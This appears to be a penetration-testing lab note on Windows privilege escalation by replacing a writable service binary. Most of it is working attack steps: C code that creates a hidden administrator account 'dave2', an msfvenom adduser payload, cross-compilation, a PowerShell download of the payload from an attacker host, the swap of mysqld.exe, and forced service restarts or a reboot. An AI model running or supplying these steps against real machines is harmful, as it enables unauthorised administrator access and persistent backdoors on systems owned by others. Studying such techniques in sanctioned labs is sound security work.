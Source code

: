 | Mask | Permissions           |
| ---- | --------------------- |
| F    | Full access           |
| M    | Modify access         |
| RX   | Read & execute access |
| R    | Read-only access      |
| W    |                       |

C code to create dave2 user that is part of the administrator group:
```c
#include <stdlib.h>

int main()
{
   int i;
   
   i = system ("net user dave2 password123! /add"); 
   i = system ("net localgroup administrators dave2 /add"); 
   return 0; 
}

# Generate same payload using msfvenom:
msfvenom -p windows/adduser USER=<user> PASS=<pass> -f exe -o user.exe 
```

Cross compile the C code:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
>[!warning]
>Check if application is 32 or 64-bit!

Transfer it to the target system (make sure the name is set to mysqld.exe)
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

# Try to reboot
net stop <service>
net start <service>
Stop-Service <service>
Start-Service <service>
```

Verify if the service starts on boot:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | WhereObject {$_.Name -like 'mysql'}
```

Reboot the machine:
```powershell
shutdown /r /t 0
```
>[!info]
>We need SeShutDownPrivilege set (whoami /priv)
